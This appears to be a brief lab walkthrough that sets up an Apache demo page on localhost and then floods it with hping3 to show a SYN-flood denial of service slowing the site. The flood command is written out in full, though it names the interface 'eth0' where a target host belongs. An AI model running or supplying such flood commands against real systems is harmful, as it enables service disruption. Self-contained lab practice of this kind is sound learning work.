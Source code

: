 Step 1 : Starting Apache = sudo systemctl start apache2 , sudo systemctl enable apache2

Step 2 : Hosting a Demo Site :

        sudo nano /var/www/html/demo.html

        Demo Site Code :

        <!DOCTYPE html>
<html>
<head>
    <title>Demo Static Site</title>
</head>
<body>
    <h1>Welcome to My Website</h1>
    <p>This is a demo site for testing.</p>
</body>
</html>

Step 3 : lauching the demo site : firefox http://localhost

Step 4 : Lauching DDOS : sudo hping3 -S --flood -V -p 80 eth0

In resultant, the WebPage becomes slow and showing slow resonse.

 


